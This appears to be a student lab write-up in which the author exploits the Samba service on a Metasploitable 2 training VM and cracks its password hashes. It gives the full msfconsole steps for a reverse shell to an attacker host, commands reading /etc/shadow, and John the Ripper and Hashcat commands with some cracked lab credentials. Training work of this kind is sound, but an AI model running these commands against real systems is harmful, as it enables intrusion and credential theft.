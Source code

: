 Although exploitation wasn't the core of the assignment, initial access to the Metasploitable 2 system was needed.

Once enumeration revealed the SMB service on Metasploitable 2, I used Metasploit to exploit it:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.104
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.56.102
exploit
```
Once shell access was gained:
```
cat /etc/passwd
cat /etc/shadow
```
Due to issues with scp in copying the content to my machine ("host key verification failed"), I copied the contents manually from the shell into my local files:
```
nano shadow.txt      # Pasted contents from /etc/shadow
nano passwd.txt      # Pasted contents from /etc/passwd
```
Then I combined the hash files...waiting to be cracked with John The Ripper:
```
unshadow passwd.txt shadow.txt > hashes.txt
```

---

## Password Cracking Process

### Using John The Ripper with `rockyou` wordlist:
```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Successfully cracked 3/7 hashes:

- `sys:batman`

- `klog:123456789`

- `service:service`

John The Ripper returned the hash format to be `md5crypt`

### Preparing for Hashcat Cracking
```bash
cut -d: -f2 shadow.txt > md5.hash
```
This command extracts only the hashed password portion from the `shadow.txt` file.

### Using Hashcat with wordlist from Seclists
```
hashcat -m 500 md5.hash /usr/share/wordlists/xato-net-10-million-passwords.txt --force
```
Successfully cracked 4/7 passwords, including `user:user`.
